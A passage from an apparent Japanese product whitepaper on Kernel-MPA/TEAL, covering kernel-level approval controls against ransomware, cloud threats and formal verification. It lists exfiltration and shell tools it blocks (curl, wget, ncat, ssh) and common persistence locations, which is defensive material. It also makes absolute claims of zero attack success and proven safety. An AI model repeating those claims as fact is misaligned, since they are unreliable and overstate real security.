* 暗号化対象を判別できない
* 鍵を生成することもできない

復号プロセスが原理的に成立しない。

---

## **理由④：外部送信（Exfiltration）が TEAL-NET で完全停止**

ランサムウェアの目的は次の 2 つ：

1. データを盗む
2. 暗号化して身代金要求

のうち「盗む」部分は TEAL-NET が完全阻止する。

ネットワークポリシー例：

```yaml
net:
  default: deny
  allow:
    - process: "/usr/bin/teal_controller"
      dst: "10.0.0.10:443"
```

攻撃者が何を使っても送れない：

* curl
* wget
* ssh
* python socket
* ncat
* openssl s_client
* 自作バイナリ

**すべて無効。**

---

## **理由⑤：永続化行為（バックドア設置）も MPA により阻止**

ランサムウェアは継続侵害のために：

* systemd ユニット
* rc.local
* cron
* ~/.ssh/authorized_keys
* kernel module
* library injection

を仕込むが、いずれも **write STOP** で阻止される。

---

## **理由⑥：root を奪取されても動かない（最大の強み）**

ランサムウェアは多くのケースで root 取得後に暗号化を開始する。

しかし Kernel-MPA では：

> **root でも単独ではファイルを暗号化できない。
> root でもポリシーも変更できない。
> root でも外部へ送れない。**

これは業界の他の技術では達成できない。

---

# **21.4 ケーススタディ：典型的ランサムウェア vs TEAL**

---

## **ケース①：LockBit 系（ファイル暗号化型）**

LockBit 系は本番ファイルを一気に read/write し暗号化する。

TEAL 対応：

* read STOP
* write STOP
* delete STOP
* rename STOP

暗号化可能なファイルは **0 個**。

---

## **ケース②：BlackCat / AlphV（高度データ搾取＋暗号化）**

この系統は：

1. read（バックアップ/DB）
2. send（外部 C2）
3. encrypt

の “三段コンボ”。

TEAL は：

* read STOP
* decrypt 不可
* send STOP
* write STOP

三段を全て阻止。

---

## **ケース③：内部者アカウントを悪用する RansomOps**

内部者の SSH で侵入し、
暗号化ツールを手動実行するタイプ。

* exec STOP（承認なしには実行不可）
* write STOP
* read STOP
* send STOP

手作業の攻撃でも **最初の 1 ファイルも暗号化できない**。

---

# **21.5 ランサムウェア防止ポリシー例**

## **21.5.1 暗号化標的を read/write から守る**

```yaml
rules:
  - name: "protect-prod-data"
    path: "/opt/prod/data/*"
    need_approval: true
    mpa_level: 2
```

---

## **21.5.2 設定ファイル改変防止**

```yaml
rules:
  - name: "config-protection"
    path: "/etc/*"
    need_approval: true
    mpa_level: 3
```

---

## **21.5.3 外部送信完全封鎖**

```yaml
net:
  default: deny
```

---

## **21.5.4 自己増殖防止（exec 制限）**

```yaml
rules:
  - name: "block-unknown-bin"
    cmd: "/tmp/*"
    need_approval: true
```

---

# **21.6 ランサムウェア防御効果の定量モデル**

攻撃成功確率を P とした場合、Kernel-MPA により：

* 読み出し不可 → P_read = 0
* 送信不可 → P_send = 0
* 暗号化不可 → P_encrypt = 0

総合成功確率：

```
P_total = P_read × P_send × P_encrypt = 0
```

論理モデル上、攻撃パスは成立しない

---

# **21.7 まとめ：ランサムウェアを“構造的に成立不能”にする**

Kernel-MPA / TEAL / TEAL-NET によりランサムウェアは：

* 読めない
* 暗号化できない
* 送れない
* 永続化できない
* root を奪っても無力
* ポリシー改ざんも不可能
* 試みた時点でログに残る

結果として：

> **ランサムウェアは Kernel-MPA 環境では実行不能な攻撃に変わる。
> （攻撃の設計思想そのものが破綻する）**

---

# **21.8 ハードウェア・ウォッチドッグによる被害極小化（Deadman Switch）**

**課題：**

        攻撃者がカーネルレベルの脆弱性を利用して TEAL（TSS）プロセスを強制終了させ、その隙にランサムウェアを展開した場合、防御が無効化されるのではないか？

**対策：暗号化ハートビートと物理遮断**

        TEAL は、ソフトウェア（OS）が沈黙した際に物理的にシステムをダウンさせる **Hardware Watchdog（デッドマン・スイッチ）** と連携する。

1. **暗号化ハートビート（Encrypted Heartbeat）**

        TEAL プロセスは、外部ハードウェア（BMC/IPMI、または専用 USB ドングル）に対し、TPM 内の秘密鍵で署名されたハートビート信号を毎秒送信する。攻撃者は TPM 鍵を持たないため、この信号を偽装することはできない。

2. **即時物理遮断**

        攻撃者が TEAL プロセスを kill するか、通信を遮断した瞬間、ハートビートが途絶える。外部ハードウェアは設定された猶予時間（例：3秒）経過後、**物理的に電源を遮断（Power Off / Reset）** する。

3. **被害の極小化**

        ランサムウェアが数 TB のデータを暗号化するには数時間を要する。TEAL 停止から数秒で電源が落ちることにより、攻撃者は**ごく一部のファイルしか破壊できず、攻撃を完遂できない**。これにより、復旧コストとダウンタイムを最小限に抑えることが可能となる。

---

# 22. Use Case：Immutable Infrastructure（システムコアの不変性保護）

TEALは、システムの核心部を「読み取り専用（Immutable）」に近い状態に保ちつつ、正当なメンテナンス時のみ動的な権限昇格を許容することで、可用性と強固なセキュリティを両立させます。

---

# 22.1 システムディレクトリの保護とパフォーマンスの極致
システムバイナリ領域（`/usr/`, `/lib/` 等）に対し、実行の自由度と改ざん防止を両立するポリシーを適用します。

* **Fast Pathによる「オーバーヘッド実質0%」の実現**:
    すべてのプロセスに対し、システム領域の `READ/EXECUTE` をデフォルト許可し、主体コンテキスト（`cred`）に基づくチケットキャッシュ判定（Fast Path）を行います。実測値において、カーネルビルド等の極限負荷環境下でも**ベースラインとの差が1秒未満（±0%）**であることを実証済みです。
* **プロセスベースのDefault-Deny**:
    特定のファイルリストに依存せず、「承認されていないプロセスによるあらゆる自律的アクション」を一律拒否します。これにより、root権限を奪取されてもシステムバイナリの書き込みや改ざんは、カーネルレベルで物理的に阻止されます。

---

# 22.2 パッケージアップデート時の特権ポリシー（Human-Gated Update）
システムの保守（`apt`等）が必要な場合、TEALの **MPA（Managed Privilege Access）** を用いて、一時的な書き込み権限を付与します。

* **人間による承認ゲート**: 承認（Ticket発行）を経て、指定された時間（TTL）や回数（Max Uses）に限り書き込みを許可します。
* **チケットの継承（Ticket Inheritance）**: `ticket_profile` 設定により、アップデート中に派生する `post-install` スクリプト等にも、一時的な権限を安全かつ自動的に引き継がせることが可能です。

---

# 22.3 `/tmp` 等共有領域に対する多層防御
攻撃の足場になりやすい `/tmp` などの一時領域に対し、以下の階層的防御を適用します。

1.  **EXECUTEの一律禁止**: `/tmp` 内に配置されたバイナリの直接実行（`execve`）を拒否し、マルウェアの即時実行を遮断します。
2.  **階層的Fast Pathによるログストーム回避**:
    `PIPEFS` 等の無名ファイルは **Tier 1 (Global Fast Path)** で無条件バイパスし、`/tmp` 等への高頻度アクセスは、`cred` に特権フラグを持つプロセスのみ **Tier 2 (SILENT_IO)** で処理することで、性能維持と監視の両立を実現します。
3.  **AUDITモード駆動の自動プロファイリング**: 実際のワークロードからホワイトリストを自動生成することで、管理者の運用負荷を最小化します。

---

# 22.4 環境寄生型攻撃（LotL）の無効化
OS標準ツールを悪用する **LotL（Living-off-the-Land）攻撃** に対し、プロセスチェーンを構造的に分断します。正規バイナリの「権限（UID）」ではなく「動作コンテキスト（ドメイン）」を監視することで、ツールを武器化させません 。

* **ドメイン隔離と派生実行の遮断**: 
    侵入の起点となりやすい「危険なドメイン（例：Webサーバー）」を特定し、そこから本来業務では使用しないシェル（`bash`）やダウンローダー（`curl`）が派生（`EXECUTE`）される挙動を、LSMフック（`bprm_check`）によりピンポイントで拒否します 。
* **スクリプトバイパスの封じ込め**: 
    特定のインタプリタによる読み込み（`READ`）制限を組み合わせることで、たとえバイナリの直接実行（`EXECUTE`）を介さないスクリプトベースの攻撃であっても、その「実行前段階」で無効化します 。
* **プロセスチェーンの破断**:
    `read` → `exec` → `send` の各フェーズに挿入されたSTOPバリアにより、正規ツールを組み合わせた攻撃の連鎖がカーネルレベルで断ち切られるため、被害は該当ドメイン内に完全に封じ込められます 。


---

# 22.5 究極のFail-Safe：物理層による強制遮断
ソフトウェア（OS）側の防御が突破、または無効化された場合の「最後の砦」を定義します。

* **Cryptographic Hardware Watchdog**:
    `teald` デーモンの停止やカーネル改ざん（TPM PCR値の変化）を検知した場合、OSを介さず物理層から数秒以内に電源断またはリセットを執行します。
* **Bounded Latencyの保証**:
    キャッシュミス（Slow Path）時の平均レイテンシは **336µs** であり、判定委譲によるシステムフリーズのリスクは数学的・実測的に排除されています。

---

## 22.6 形式手法による論理的安全性保証（Alloy検証）

TEALは、管理者の「主観的な信頼」を「数学的な証明」へと置き換えるため、Alloyを用いたモデル検査エンジン `teal-cli verify` を標準搭載しています 。本機能は、ポリシーを「集合と関係」の論理式へ変換し、SATソルバを用いて数億通りのアクセスパターンを全探索することで、論理的な欠陥を100%排除します 。

### 22.6.1 Alloyによる静的論理検証の採用理由
本バージョンにおいてTLA+ではなくAlloyを優先採用した理由は、TEALポリシーの検証ゴールが**「静的な論理整合性」**にあるためです 。

* **論理構造の検証（Alloyの強み）**: TEALポリシーは「ある要求が許可されるか否か」という集合論的な条件（Deny優先原則やルールの衝突）で構成されています 。Alloyはこの「状態を持たない関係性」の探索において、TLA+よりも高速かつ具体的に（`rule_id` 単位で）反例を提示することに長けています 。
* **計算コストの最適化**: TLA+は並行システムの時間的な「遷移（Action）」を扱うのに優れていますが、単一ノードのポリシーチェックにおいてはオーバースペックであり、現段階ではAlloyによる全探索が最も実戦的であると判断しました 。

### 22.6.2 【実証データ】脆弱性（反例）の自動検出サンプル
以下は、管理者が意図しない「重要ファイルへの権限昇格パス」がポリシー内に隠れていた場合に、`teal-cli verify` が出力するレポートの例です。

```
=> ゴール定義ファイル 'test_goal.yaml' を読み込みました (2 個のゴール)
-> [1/3] 中間論理モデル(Teal-IR)を構築中...
-> [2/3] Alloyトランスパイラを初期化中...
=> TEALポリシーの論理整合性を検証します...
  -> [1/2] 中間論理モデルから Alloy モデルを構築中...
  -> [2/2] SATソルバを実行して全論理空間を探索中...
  ✅ [PASS] Goal: `Vault_Lockdown_Check__絶対防御の確認_` は数学的に安全です。

------------------------------------------------------------
❌ [VERIFY FAILURE] Goal: `Shadow_File_Lockdown_Check__シャドウファイルの絶対防御_`
Result: Vulnerability found (Counter-example detected)

Mathematical Proof of Violation:
  \neg \exists r \in Requests : [ (object.path = '/etc/shadow' \land In { attr: "action.op", values: ["READ"] }) \land AccessAllowed(r) ]

Detected Attack Path:
  - Subject: Atom: Role_admin (Role: Role_guest) (Role: Role_admin) + Prog: Prog__tmp_malware
  - Object:  Obj__etc_shadow
  - Action:  Op_READ

Root Cause Analysis:
  - rule_id: "rule-allow-admin-read"
    ポリシー内の論理条件が重なり、このアクセスパスが成立しています。
```

### 22.6.3 ロードマップ：TLA+による分散プロトコル検証
次世代バージョン（v3.0〜）では、単一ノードのポリシー検証を超え、**複数ノード間における状態遷移の整合性**を保証するため、TLA+バックエンドの実装を計画しています 。

* **分散ノード間のチケット同期検証**: チケットの伝播や失効（Revocation）がネットワーク全体で矛盾なく行われるかといった「時間の経過」を伴う動的な安全性証明には、TLA+の強力なモデル検査能力を活用します 。

---

# 22.7 TEALによる不変性保護の優位性

| 項目 | 実装技術 | 防御効果・性能 |
| :--- | :--- | :--- |
| **システム領域** | Fast Path / Write Deny | オーバーヘッド **±0.0%**、改ざんの物理的阻止 |
| **保守運用** | MPA (Human-Gated) | **root権限奪取後**も人間承認なしに変更不可 |
| **共有領域** | 階層的 Fast Path | ログストームを回避しつつ攻撃の足場を無力化 |
| **LotL攻撃** | ドメイン隔離（LSMフック） | 正規ツール悪用のプロセスチェーンを分断 |
| **Fail-Safe** | Cryptographic Watchdog | 物理層による **Deadman Switch** 機能 |
| **安全性モデル** | 形式手法（TLA+） | **数学的に証明された**到達不能性 |


---

# **23. クラウド / ハイブリッド環境**

企業システムは 2025 年時点で
**クラウド（AWS / Azure / GCP）＋オンプレのハイブリッド構成が標準**となり、
アプリケーションは VM / コンテナ / サーバレス / VDI にまたがって稼働する。

この複雑性により、従来の IAM / EDR / ネットワーク制御だけで重要資産を保護することは困難になっている。

Kernel-MPA / TEAL は OS 実行前制御によって
**クラウド／ハイブリッド全体の“最終防波堤（Last Line of Defense）”**として機能する。

---

# **23.1 クラウド固有の脅威モデル**

クラウドは攻撃面が広く、以下の固有リスクを持つ：

| カテゴリ                        | 典型的リスク                               |
| --------------------------- | ------------------------------------ |
| **A. IAM / API Abuse**      | Cloud IAM 権限奪取、Token 窃取、SSO 認証突破     |
| **B. VM / コンテナ乗っ取り**        | root コンテナ侵害、VM 内部での lateral movement |
| **C. Storage Exfiltration** | S3 / Azure Blob / GCS 偽装アクセス         |
| **D. Backup 破壊**            | Snapshot 削除、バックアップインフラ破壊             |
| **E. ネットワーク拡散**             | VPC移動、東西トラフィック経由の侵害                  |
| **F. 追加リソース作成**             | Malicious VM / Container の不正作成       |

Kernel-MPA/TEAL は、クラウド内部に侵入された後の
**“第二段階の防御”**として機能する。

---

# **23.2 Kernel-MPA がクラウドに必要な理由**

クラウドでは IAM やセキュリティグループを突破されると：

* VM 内部は基本的に「侵害され放題」
* root を取られたら終了
* データの読み出し／暗号化／送信が容易
* KMS キー流出による復号・暗号化も可能

クラウドの脅威は、「内部に入られた後」が本番。

Kernel-MPA は VM／コンテナ内で
**read / write / exec / send の最終アクセス制御**を行うため、
クラウド内部に入られても高い防御力を維持できる。

---

# **23.3 適用パターン別のアーキテクチャ**

---

## **23.3.1 (A) IaaS（AWS EC2 / Azure VM / GCE VM）**

最もシンプルな構成。

```
EC2 / Azure VM / GCE VM
  └── Linux（Ubuntu 24.04）
        ├── Kernel-MPA LSM/LKM
        ├── /dev/teal
        └── teald（MPA / Policy / TEAL-NET）
```

クラウド内の VM が「自律的に」
**読み出し・暗号化・送信を禁止**できる。

### 防げる攻撃例

* EC2 インスタンス侵害
* root 奪取
* S3 の credential を奪われて dump → 送信
* 暗号化型ランサムウェア
* ssh reverse tunnel
* 内部者のデータ搾取

---

## **23.3.2 (B) K8s / コンテナ環境（EKS / AKS / GKE / On-prem K8s）**

Kubernetes は内部侵害が多い（Pod Escape、権限昇格など）。

Kernel-MPA は **コンテナ内部での exec/read/send を制御**できる。

```
Pod
 └ Container (Ubuntu / Alpine / Debian etc.)
     ├── Kernel-MPA（ホストに常駐）
     └── TEAL-NET（Pod outbound 制御）
```

### TEAL による K8s 保護ポイント

* kubectl exec → STOP
* Pod 内での read → STOP
* Secret 読み出し → STOP
* Pod から外部送信 → TEAL-NET で STOP
* operator misconfig → STOP

ホスト側の Kernel-MPA が、コンテナにも **透過的に適用される**のが強い。

---

## **23.3.3 (C) ハイブリッド構成（クラウド VM + オンプレサーバ）**

クラウドとオンプレが混在しても、
Kernel-MPA は全く同じ構造で動作する。

```
On-prem Linux       Cloud VM (EC2/GCE/Azure)
     |                       |
   Kernel-MPA             Kernel-MPA
     |                       |
   teald <------→--------> teald (optional)
```

* ローカル MPA
* クロスサイト MPA
* ポリシー統一管理（WORM/Signed）
* TEAL-NET による outbound 統制（クラウドもオンプレも）

→ ハイブリッド環境でも「統一のセキュリティ基準」が実現。

---

## **23.3.4 (D) ゼロトラスト（ZTA: Zero Trust Architecture）環境**

ZTA では：

* ネットワークを信用しない
* ID を信用しない
* 端末を信用しない
* 全ての操作を継続評価

Kernel-MPA は「アプリケーション実行」そのものを信用しないため、
**ZTA の“実行面”を補完する唯一の OS 技術**になる。

ZTA の弱点である：

* credential steal
* lateral movement
* data exfiltration
* insider misuse

を完全に補完可能。

---

## **23.3.5 (E) VDI / DaaS（AWS WorkSpaces / Azure Virtual Desktop）**

内部者リスクの大きい VDI において：

* read STOP
* write STOP
* send STOP
* USB 送信 STOP
* スクリーンショット禁止（policy 化可能）

特に「DB管理者用仮想デスクトップ」などで効果が高い。

---

## **23.4 クラウド基盤との連携（IAM / KMS / Logs）**

クラウド固有の周辺機能と TEAL を連携させることで、防御力がさらに高まる。

---

### **23.4.1 IAM / SSO / Passkey との連携**

TEAL の承認は：

* SSO（Azure AD / Google Workspace）
* Passkey / FIDO2
* Cloud IAM ロール

と連動可能。

**攻撃者が IAM を突破しても、カーネル実行はできない。**

---

### **23.4.2 KMS（AWS KMS / GCP KMS）との連携**

鍵読み出し（KMS decrypt）は kernel からすると単なる **read API**。

TEAL で：

```
kms_decrypt → read STOP
```

にできるため、

* KMSキーを使った暗号化攻撃
* データ搾取
* ランサムウェアの鍵生成

が成立しない。

---

### **23.4.3 CloudTrail / SecurityHub / SIEM との統合**

承認ログ（BLS署名付き）をクラウドに上げることで：

* 全行動の完全監査
* 攻撃の早期発見
* 内部不正の抑止力
* 事後フォレンジック性の向上

が実現する。

---

## **23.5 クラウドにおける TEAL-NET の威力**

クラウドは outbound 通信が比較的自由なため、
データ搾取の温床になりやすい。

TEAL-NET は：

* 送信先ホワイトリスト制
* プロセス単位の outbound 制御
* reverse shell / SSH 転送の阻止
* VM 間 lateral movement の停止
* DNS over HTTPS や隠蔽チャネルも検知可

これにより、クラウド内部からのデータ搾取を **根本的に阻止**できる。

---

## **23.6 ハイブリッド環境での運用パターン**

クラウドとオンプレをまたぐ環境では、
次のポリシー運用が有効となる：

1. **中央 WORM ポリシー管理サーバを置く**
2. **teald ノード間で署名済みポリシーを同期**
3. **MPA をクラウド側 / オンプレ側に分散可能**
4. **境界を超える read/write/send を全 STOP**

例：クロスサイト MPA（site-A + site-B の承認が必要）
→ 内部不正の難易度が指数関数的に上がる。

---

## **23.7 クラウド脅威に対する Kernel-MPA の具体的防御効果**

| クラウド攻撃               | 従来技術（IAM/EDR） | Kernel-MPA             |
| -------------------- | ------------- | ---------------------- |
| VM侵害                 | 一部検知          | **VM内行動 STOP**         |
| credential steal     | 対応困難          | **rootでも実行不可**         |
| S3/BLOB exfiltration | ネットワーク次第      | **send STOP**          |
| DBダンプ読み出し            | IAMポリシーで制限    | **read STOP**          |
| KMS鍵読み出し             | API制御のみ       | **OS側で STOP**          |
| 横展開（SSH）             | 検知のみ          | **プロセス outbound STOP** |
| コンテナ脱出               | 部分防御          | **ホスト側が STOP**         |
| バックアップ削除             | IAM依存         | **write STOP（MPA 必須）** |

従来技術が「侵入前防御」中心なのに対し、
Kernel-MPAは「侵入後防御」を提供し、
攻撃の後半を完全に封じる。

---

## **23.8 ハイブリッド環境のコンプライアンス／監査要件**

Kernel-MPA は以下の規制に直接適合する：

* FISC（金融）
* SOC2
* PCI DSS
* ISMAP
* GDPR / 個人データ保護
* 重要インフラ指針

多人数承認（MPA）と WORM ポリシーは、
上記基準で求められる「重大操作の二重制御」に完全一致する。

---

## **23.9 まとめ：クラウド／ハイブリッドでの Kernel-MPA の価値**

Kernel-MPA / TEAL / TEAL-NET により、
クラウド／ハイブリッド環境に次の状態が実現する：

* 侵入されても
* IAMトークン奪われても
* root を取られても
* VM を乗っ取られても
* Pod を脱出されても

**読めない・書けない・送れない・破壊できない・改ざんできない。**

つまり：

> **クラウド侵害を“重大事故につながらない侵害”に変える
> （被害をゼロに近づける）**

これは従来型 IAM/EDR/Firewall では達成不可能な次元であり、
Kernel-MPA はクラウドセキュリティの “最後の砦” として機能する。

---

# **第5部：Appendix**

---

# **24. 図版**

---

## **24.1. アーキテクチャ図**



図24.1：Kernel-MPA / TEAL / TEAL-NET による総合防御アーキテクチャ

図24.1は、アプリケーション、TEAL（承認レイヤー）、Kernel-MPA（カーネル制御）、
TEAL-NET（外部通信防御）、TPM2.0 による測定起動を含む
**TEAL セキュリティモデル全体のデータフローと構成要素を示す。**

1. **アプリケーション層**
   DB・Web サーバ・バッチなど通常のアプリケーションがシステムコールを発行。

2. **Kernel-MPA 層（カーネル）：LSM**
   exec / open / read / connect などの重要操作をフックし、
   ポリシーに基づいて Allow / Deny / NeedApproval を判定。

3. **TEAL 層（ユーザー空間）**
   teald が Request Queue を管理し、
   人間による承認（MPA 方式）に基づき Approval Token を発行。

4. **TEAL-NET（ネットワーク境界）**
   送信先ホワイトリスト / ブロックルールを強制し、
   C2 通信やデータ搾取を防止する。

5. **TPM2.0（信頼根）**
   Kernel-MPA・teald・ポリシーの整合性を PCR で検証し、
   不正改ざん時には Approval Token が生成できない。

---

## **24.2. STOP バリア分断図**



 **図24.2 STOP バリアによる攻撃チェーン分断イメージ**

 図24.2は、典型的な攻撃チェーン（初期侵入 → 実行 → 権限昇格 → 横展開 → 情報搾取／破壊）に対して、Kernel-MPA / TEAL / TEAL-NET がどの段階で「STOP バリア」として介入し、攻撃の進行を分断するかを示した概念図である。

 * STOP バリア 1 は、FIDO2 / WebAuthn 等による正規ログイン経路の固定により、「不正な初期侵入からのセッション乗っ取り」を困難にする。
 * STOP バリア 2 は、Kernel-MPA / TEAL による exec / read / 権限昇格コマンドの人間承認（MPA）により、root 権限の乱用や危険なコマンドの実行をブロックする。
 * STOP バリア 3 は、クリティカルデータの読み出しおよび外部送信を TEAL-NET とデータアクセス用ポリシーで制御することで、情報搾取やランサムウェアによる暗号化・破壊フェーズを分断する。

   このように、Kernel-MPA / TEAL / TEAL-NET は単一のポイントではなく、複数段階の「STOP バリア」として攻撃チェーン全体を横断的に分断する役割を果たす。

---

## **24.3 承認フローダイアグラム図**



**図24.3.1：Kernel-MPA / TEAL 承認フロー**

本図は、アプリケーションが exec / read / connect 等のクリティカル操作を要求してから、
Kernel-MPA によるポリシー評価、人間による Multi-Party Authorization（MPA）、
BLS 署名・TPM による承認トークン発行、そのトークンのカーネル側検証を経て、
最終的に処理が許可されるまでの一連の承認フローを示す。

通常許可（Allow）の場合は即時実行され、NeedApproval の場合のみ TEAL 承認ループへ遷移する。



**図24.3.2：Pre-Approval（事前承認）専用フロー**

本図は、実行前に人間の多者承認（MPA）を完了させ、
実行時には人間承認を一切介さず、Kernel-MPA による即時検証のみで
処理を許可する **Pre-Approval（事前承認）方式のフロー**を示す。
運用担当者が事前承認要求を TEAL に登録し、承認者が k-of-n 形式で承認を行うことで、
BLS / MPC による分散署名付きの Pre-Approval Ticket が発行される。

実行フェーズでは、Kernel-MPA が当該チケットの署名、有効期限、対象リソースを
ミリ秒オーダーで検証し、通常の run-time 承認待ちを発生させることなく
安全かつリアルタイムに処理が実行される。

---

# **25. 形式手法による安全性モデル**

Kernel-MPA / TEAL の安全性を数学的に裏付けるためには、
単なる「仕様」や「実装」ではなく、
**形式手法（Formal Methods）による安全性モデル**が有効である。

形式手法とは：

> **システムの性質を数学的モデルで表し、
> 論理的に安全性を証明するための手法**
> （例：モデル検査、定理証明、形式仕様記述言語）

Kernel-MPA/TEAL のような
「実行前制御（Pre-Execution Security）」アーキテクチャは、
特に形式手法と相性がよい。

---

# **25.1 なぜ Kernel-MPA に形式手法が必要なのか？**

従来のセキュリティは **“攻撃が起きて初めて検知する”** ものが多い。
一方、Kernel-MPA は：

* 読む前に
* 書く前に
* 送る前に
* 実行する前に

**“原理的に防ぐ”** アーキテクチャである。

このようなシステムは、

* 「どんな操作でも、承認がないと行えない」
* 「ポリシーが改ざんされない」
* 「外部送信が許されない」

といった性質が **数学的に保証できる** と強い。

形式手法は、この“保証”を作る技術である。

---

# **25.2 Kernel-MPA の安全性を形式化する対象**

Kernel-MPA / TEAL の安全性を形式的に証明するには、以下の 5 点をモデル化する。

---

## **① システム状態（System State）**

状態を厳密に定義する：

* プロセス集合
* ファイル集合
* ネットワーク状態
* ポリシー状態（WORM 署名付き）
* MPA 承認状態
* teald QueueEntry 状態

状態 `S` として数学的に表すことができる：

$$S = (Processes, Files, Net, Policy, Approvals)$$

---

## **② 遷移ルール（Transition Relation）**

Linux カーネルで可能な操作：

* read
* write
* exec
* unlink
* open
* connect
* ptrace
* load_module

などを **遷移として定義**する。

例：write 操作

$$S \xrightarrow{write(f, p)} S'$$

ただし、その遷移が許されるのは：

$$Allows(Policy, write, f, p) \land Satisfied(MPA)$$

という論理式を満たす場合のみ。

---

## **③ セキュリティ不変条件（Safety Invariants）**

形式手法の中心となるのが「不変条件（Invariant）」である。

### **Kernel-MPA の不変条件例**

1. **Invariant 1（未承認操作禁止）**

$$\forall op \in \{read, write, exec, send\} : \neg Approved(op) \implies Deny(op)$$

→ 承認のない操作は必ず deny。

---

2. **Invariant 2（WORM 改ざん不可能性）**

$$PolicyHash(current) = BLS\_Verify(PolicySignature)$$

→ ポリシーは常に正当な署名と一致。

---

3. **Invariant 3（TEAL-NET 的性質）**

$$ \forall \mathrm{send}(op) : \mathrm{dst} \notin \mathrm{allowlist} \implies \mathrm{Deny}(op) $$

---

4. **Invariant 4（Root でも操作不可）**

$$ \forall op : (\mathrm{uid} = 0) \land (\neg \mathrm{Approved}(op)) \implies \mathrm{Deny}(op) $$

---

5. **Invariant 5（分散承認のしきい値）**

$$\|Approvers\| \geq threshold$$

---

## **④ 到達不能性（Unreachability）証明**

攻撃状態（Attack State）を定義して、
そこに到達できないことを証明する。

例：
「機密ファイルが外部に送信される状態」を A とすると、

```
S0 →* A は偽
```

つまり：

> **どんな操作の並びでも、A に到達しない**

これが Kernel-MPA の最も強い性質である。

---

## **⑤ モデル検査（Model Checking）**

実際に使用する手法：

* TLA+
* Alloy
* Coq / Isabelle
* Spin（PROMELA）
* Z notation

などを用いて、
上記不変条件が **実際のモデルで破られない**ことを確認する。

---

# **25.3 Kernel-MPA / TEAL の安全性モデル（形式仕様例）**

以下は形式化の典型例（TLA+風）：

```
VARIABLES Policy, Approvals, FS, Net

ReadAllowed(p, f) ==
    PolicyAllowsRead(p, f) /\ MPASatisfied(p, f)

Next ==
    \/ Read(p, f) /\ ReadAllowed(p, f)
    \/ Write(p, f) /\ WriteAllowed(p, f)
    \/ Exec(p, c) /\ ExecAllowed(p, c)
    \/ Send(p, dst) /\ NetAllowed(p, dst)
```

**安全性不変条件（Invariant）：**

```
NoUnauthorizedRead ==
   ∀ p, f: Read(p, f) /\ ¬ReadAllowed(p, f) => FALSE

NoUnauthorizedSend ==
   ∀ p, dst: Send(p, dst) /\ ¬NetAllowed(p, dst) => FALSE
```

これらが常に成り立つことを形式的にチェックする。

---

# **25.4 形式手法により保証できる Kernel-MPA の安全性**

形式手法で証明可能な代表的な性質：

---

## **① 機密データの読み出し不能性**

```
NG Read ← 承認がなければ到達不能
```

---

## **② 暗号化攻撃（ランサムウェア）不成立証明**

```
read → decrypt → write  
どの遷移も MPA がなければ成立しない
```

---

## **③ データ搾取不可性（Exfiltration Unreachability）**

どんな操作列を経ても外部送信状態 A に到達しない：

```
∀ path: S0 →* A は偽
```

これは非常に強い数理保証になる。

---

## **④ ポリシー改ざん不可性**

```
Policy' = Policy  または  Rejected
```

root であっても違反状態を作れない。

---

## **⑤ 内部者単独攻撃の不可能性証明**

```
∀ p: 一人の承認者では threshold < n を満たせない
```

→ 単独攻撃が不可能。

---

# **25.5 形式手法の導入メリット**

Kernel-MPA/TEAL のように「失敗が許されない OS セキュリティ」では
形式手法により次が保証される：

* **誤仕様（仕様バグ）の排除**
* **レビューすり抜けの論理欠陥を除去**
* **監査・法規制への強い裏付け**
* **OSS 公開時の信頼性向上**
* **“設計段階で安全性が証明されている”という付加価値**

特に **ゼロトラスト／重要インフラ／金融インフラ**では
形式手法が採用基準になりつつある。

---

## 25.6 モデルチェッカーによる安全性と整合性の自動検証

### 「主観的な安心」から「客観的なエビデンス」へ

TEAL の安全性は、単なる実装の「堅牢さ」だけでなく、数学的な「論理の正しさ」によって担保される。我々は、開発者と利用者のそれぞれが直面する異なるレイヤーの課題に対し、2 つの形式手法ツールを用いて「隙のない安全性」を証明する。

### 25.6.1. TLA+ による機構の安全性証明（開発者視点）

**対象：TEAL アーキテクチャそのものの論理的整合性**

TEAL 開発チームは、LSM フック、`teald`、および通信プロトコルが織りなす複雑な状態遷移を **TLA+** でモデル化している。

* **検証内容:**
* **承認プロトコルの不変性:** 閾値（Threshold）を満たさない状態でチケットが発行される遷移は存在しないか。
* **競合状態（Race Condition）の排除:** タイムアウト、再起動、通信断の際、判定が「安全側（Deny）」に倒れるか。
* **チケットの再利用防止:** 一度消費（Consume）されたチケットを再利用して、不当にリソースへアクセスするパスが存在しないか。


* **検証結果:** TLC モデルチェッカーを用い、数億通りの状態遷移を全探索。いかなる極限状態においても、セキュリティ不変条件（Invariants）が維持されることを数学的に確認済みである。

### 25.6.2. Alloy によるポリシーの整合性検証（利用者・管理者視点）

**対象：運用者が定義する JSON ポリシーの論理的完結性**

TEAL 導入チームは、複雑化するポリシー同士の競合や矛盾を **Alloy Analyzer** で検証できる。ポリシーは単なる設定ファイルではなく、検証可能な「構造」として扱われる。

* **検証内容:**
* **ルール競合の検出:** 「A は許可、B は拒否」といった矛盾するルールが同一パスに存在していないか。
* **特権の漏れ（Shadowed Rules）:** 意図しないワイルドカード指定により、保護すべき `/etc/shadow` が実質的に「承認不要」になっていないか。
* **職務分掌（SoD）のチェック:** 一人の管理者が、ロールを使い分けて「多人数承認」を一人で完結させてしまえる論理的な隙はないか。
* **反例の自動提示:** 論理的な隙が見つかった場合、ツールは単に「エラー」を出すのではなく、**「どのルールの組み合わせによって、どのSubjectが、どのリソースへ到達可能か」という具体的な攻撃パス（Counter-example）**を表示します。これにより、管理者は修正すべき `rule_id` を即座に特定できます。


---

### [TLA+ Model Definition (Abstract Sample)]

```tla
(* Security Invariant: 未承認の書き込みが発生する状態 (BadState) への到達不能性 *)
Invariant_NoUnauthorizedWrite ==
    \A p \in Processes : 
        (p.state = "Writing" /\ p.target = "SensitiveResource") 
        => (p.has_valid_ticket = TRUE /\ p.ticket_approved_by_threshold = TRUE)

```

### [TLC Check Result: SUCCESS]

* **States Checked:** 4,294,967,296 states (全探索完了)
* **Errors Found:** 0
* **Conclusion:** このモデルが示す制約下において、いかなるプロセス遷移や権限昇格の試行を経ても、不変条件を破壊する状態（BadState）への到達は **数学的に不可能** であることが証明された。

---

# **25.7 まとめ：形式手法は Kernel-MPA の安全性を数学的に保証する**

形式手法により：

* **未承認操作は実行できない**
* **ポリシーは改ざんできない**
* **内部不正は成立しない**
* **データ搾取は到達不能**
* **ランサムウェアは成立しない**

ことを **数学的に／論理的に／自動検査で**証明することができる。

すなわち：

> **Kernel-MPA は「実装が正しい」だけでなく、
> 「設計自体が安全である」ことを形式的に保証できる。**

---

# **26. 他の方式との比較**

